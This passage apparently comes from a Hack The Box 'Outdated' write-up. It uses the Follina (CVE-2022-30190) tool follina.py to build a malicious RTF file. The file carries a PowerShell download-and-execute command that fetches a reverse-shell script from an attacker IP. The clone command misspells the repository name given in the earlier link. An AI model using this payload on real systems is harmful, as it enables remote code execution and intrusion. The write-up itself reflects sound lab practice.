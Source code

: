 ![image.png](/assets/Images/HTB_Outdated/image%203.png)

[https://github.com/chvancooten/follina.py.git](https://github.com/chvancooten/follina.py.git)

A Very explained about this exploit 

[Exploiting MSDT 0-Day CVE-2022-30190](https://youtu.be/dGCOhORNKRk?si=0UI_-9X8qsWJUF8S)

[CVE-2022-30190 (Follina) explained](https://www.hackthebox.com/blog/cve-2022-30190-follina-explained)

```bash
git clone https://github.com/chvancootne/follina.py.git
```

![image.png](/assets/Images/HTB_Outdated/image%204.png)

Using this tools to generating a `rtf` file which has this `malicious code` to get a reverse shell

This tool will host a html file on the localhost port 80 we can download it 

```bash
python3 follina.py -m command -t rtf -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.109/rev.ps1')"
```
